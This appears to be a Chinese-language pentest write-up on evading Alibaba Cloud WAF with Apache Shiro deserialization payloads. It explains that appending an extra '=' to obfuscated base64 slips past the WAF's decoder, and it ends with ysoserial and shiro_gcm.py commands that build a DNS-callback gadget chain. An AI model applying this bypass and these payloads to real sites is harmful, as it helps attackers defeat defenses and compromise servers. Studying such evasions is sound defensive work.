 # 记一次shiro爆杀阿里云WAF

先通过dnslog链进行测试，即使危害小也均不能通过。

![image-20221118151635262](记一次shiro爆杀阿里云WAF.assets/image-20221118151635262.png)

测试发现删除部分字节则WAF会放过。

![image-20221118151756768](记一次shiro爆杀阿里云WAF.assets/image-20221118151756768.png)

此处有两个推理：

推理1：阿里云WAF不会进行行为检查，拦截与否只和能否解析base64字串有关

推理2：阿里云WAF会进行行为检查，拦截也和能否解析base64字串有关



使用精简的dnslog测试不通过

![image-20221118155425796](记一次shiro爆杀阿里云WAF.assets/image-20221118155425796.png)

插入大量混淆字符不通过

![image-20221118155511401](记一次shiro爆杀阿里云WAF.assets/image-20221118155511401.png)

经过多次测试，结合最开始的情况，确定为推理1

---

精简版dnslog链，结果追加等号，依然可以识别特征

![image-20221118161933816](记一次shiro爆杀阿里云WAF.assets/image-20221118161933816.png)

先插入混淆字符，此时仍然失败

![image-20221118155645287](记一次shiro爆杀阿里云WAF.assets/image-20221118155645287.png)

注意此处为插入混淆后，末尾追加了一个`=`符号

![image-20221118155729479](记一次shiro爆杀阿里云WAF.assets/image-20221118155729479.png)

为什么能成功呢？

![image-20221118155819981](记一次shiro爆杀阿里云WAF.assets/image-20221118155819981.png)

奥秘就在base64解析上。

base64编码默认为4的整数倍，不足时会使用`=`符号进行填充，额外增加的`=`因长度无法被4整除导致解析畸形。

阿里云waf使用的编码语言的base64库无法应对这种情况。

其次，在java和javascript的部分base64解码方法中，是允许这种情况出现的，而且额外填充的`=`符号几乎不会影响解码结果

![image-20221118155857897](记一次shiro爆杀阿里云WAF.assets/image-20221118155857897.png)



![image-20221118160333665](记一次shiro爆杀阿里云WAF.assets/image-20221118160333665.png)

---



记录一下操作的工具https://github.com/woodpecker-framework/ysoserial-for-woodpecker



```bash
java -jar .\ysoserial-for-woodpecker-0.5.2.jar -g FindClassByDNS -a "http://cc31x.7a043e66.dns.1433.eu.org|org.apache.commons.collections.functors.ChainedTransformer" --dirt-data-length 4000| base64 |sed ':label;N;s/\n//;b labe l' >shir2.txt
```



![image-20221118161316573](记一次shiro爆杀阿里云WAF.assets/image-20221118161316573.png)



```bash
python3 .\shiro_gcm.py -f E:\winbak\tools\03_POC_EXP\shiro\shir2.txt
```



![image-20221118161421254](记一次shiro爆杀阿里云WAF.assets/image-20221118161421254.png)